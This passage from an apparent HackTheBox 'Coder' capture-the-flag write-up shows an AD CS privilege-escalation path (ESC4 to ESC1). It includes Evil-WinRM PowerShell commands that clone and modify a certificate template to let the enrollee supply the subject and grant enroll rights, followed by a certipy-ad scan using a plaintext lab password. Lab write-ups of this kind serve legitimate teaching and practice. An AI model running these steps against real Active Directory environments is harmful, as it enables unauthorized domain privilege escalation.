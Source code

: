 To create certificate templates without GUI, we need a tool called 
[ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate).

```ad-info
title: ADCSTemplate

A PowerShell module for exporting, importing, removing, permissioning, publishing Active Directory Certificate Templates. It also includes a DSC resource for creating AD CS templates using these functions. This was built with the intent of using DSC for rapid lab builds, but it could also be used in production environments to move templates between AD CS environments.
```

So I just uploaded the script to the machine and imported the module.

Actually the attack path we want to implement is `ESC4 -> ESC1` which means we have control over a certificate template (ESC4) and then we can modify it and set the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` (0x00000001) bitmask for the `msPKI-Certificate-Name-Flag` property. (ESC1)

```bash
*Evil-WinRM* PS C:\Users\e.black\Documents> Export-ADCSTemplate -displayName Computer > computer.json
*Evil-WinRM* PS C:\Users\e.black\Documents> $computer = cat computer.json -raw | ConvertFrom-Json
*Evil-WinRM* PS C:\Users\e.black\Documents> $computer.'msPKI-Certificate-Name-Flag' = 0x1
*Evil-WinRM* PS C:\Users\e.black\Documents> $computer | ConvertTo-Json | Set-Content computer-mod-esc1.json
*Evil-WinRM* PS C:\Users\e.black\Documents> New-ADCSTemplate -DisplayName "Computer-ESC1" -Publish -JSON (cat computer-mod-esc1.json -raw)

*Evil-WinRM* PS C:\Users\e.black\Documents> Set-ADCSTemplateACL -DisplayName "Computer-ESC1" -type allow -identity 'coder\e.black' -enroll
```

The fist step to that, is exporting a current certificate template, in this case i exported the `Comptuer` certificate. Than i read and saved the the certifiacte in json format in a variable. Now we can set the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` for `msPKI-Certificate-Name-Flag` property. Technically we are done, we have to just publish the certificate and allow `e.black` to enroll to this certificate.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ certipy-ad find -username e.black@coder.htb -password 'ypOSJXPqlDOxxbQSfEERy300' -json -vulnerable
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
[*] Got CA configuration for 'coder-DC01-CA'
[*] Saved JSON output to '20231227051420_Certipy.json'
```
